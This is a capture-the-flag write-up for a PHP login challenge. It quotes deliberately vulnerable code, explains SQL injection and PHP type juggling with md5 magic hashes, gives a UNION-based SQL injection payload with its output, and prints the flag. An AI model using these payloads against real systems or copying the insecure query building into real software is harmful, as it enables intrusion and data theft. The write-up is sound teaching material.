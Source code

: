 # Too-many-admins

## Description 

Too many admins spoil the broth. Can you login as the right admin and get the flag?

## Writeup
On launching the challenge we land at the homepage with two fields username and password, a classic authentication bypass

![image](https://github.com/user-attachments/assets/d6852b10-346d-4e93-8224-540102eafcfa)


On reading the source provided we can easily see to dump the details of all users we need to visit http://localhost:8000/?user=all
```php
    // Fetch the 'user' parameter from the query string
    $userParam = $_GET['user'];

    // Use prepared statement to prevent SQL injection
    if($userParam){
    if($userParam !=  "all"){
    $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    }else{
    $query = "SELECT username, password, bio FROM users "
    }
```
![image](https://github.com/user-attachments/assets/0e787eaf-e0eb-42a6-90cf-9441056093c2)


On looking through dump.sql we find that we need to login as some user and his bio will contain the flag.

![image](https://github.com/user-attachments/assets/e68156b9-e7cc-4ad9-b8fb-9885dc8e0c6e)

## Key Issues and Vulnerabilities
1. SQL Injection:

- The code is vulnerable to SQL injection because the ```username``` is directly included in the SQL query without proper sanitization or use of prepared statements.

2. Weak Password Hashing:

- The ```md5``` function is used for hashing, which is not considered secure for password hashing. Additionally, the specific hash value ```0e0776470569150041331763470558650263116470594705``` can lead to a type juggling vulnerability in PHP.

3. Type Juggling:

- In PHP, the comparison ```==``` can lead to type juggling, where a string starting with ```0e``` is considered as a float (scientific notation). This can be exploited, especially with the ```md5``` function, as certain inputs could produce a hash that starts with ```0e```, resulting in a false-positive match.

## Exploitation
To exploit this, you'll need to find a string that, when multiplied by 676 (which is 2 * 2 * 13 * 13), produces a 0e hash.

- Several strings are known to produce 0e-style md5 hashes. For example:
  - ```"240610708"``` → ```md5("240610708")``` → ```"0e462097431906509019562988736854"```.
  - ```"QNKCDZO"``` → ```md5("QNKCDZO")``` → ```"0e830400451993494058024219903391"```.
```php
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        $username = $_POST['username'];
        $password = $_POST['password'];
        
        if (empty($username) || empty($password)) {
            echo "Please fill in both fields.";
        } else {
    $query = "SELECT username, password, bio FROM users WHERE username = '$username' ";
    $result = $conn->query($query);
    $mysupersecurehash = md5(2*2*13*13*((int)$password));
    $i =0 ;
    while ($row = mysqli_fetch_row($result)) {
        if((int)$row[1] == $mysupersecurehash && $mysupersecurehash == 0e0776470569150041331763470558650263116470594705){
        echo "<h1>You win</h1> \n";
    echo "Did you really? \n";
        echo "<tr><td>" .$i. " </td><td> "  . $row[0] . " </td><td> " . $row[1] . " </td><td> " . $row[2] . " </td></tr>";
        $i++;
    }else{
        echo "<h1>Wrong password</h1>";
    }
}
        }
    }
```
On reading about php comparison operations we find the <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md">typejuggling</a> vulnerability. Now we need to find the right admin which can be easily found by bruteforcing the cred for those admins whose password hash begins with "0e"

```bash
flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}
```
## Other Solution (SQLi)
So, obvious SQL injection in the php code and since we have dump.sql, we know what columns are in what tables. Thus, below is a SQLi payload to extract the flag, since we know it is in the bio.

```
GET /?user=' UNION SELECT 1,bio,3 FROM users WHERE bio LIKE "%Flag{%";-- -
```

The response is: -

```
S.no	Username	Password(MD5 hashes)
0	1	flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}
```

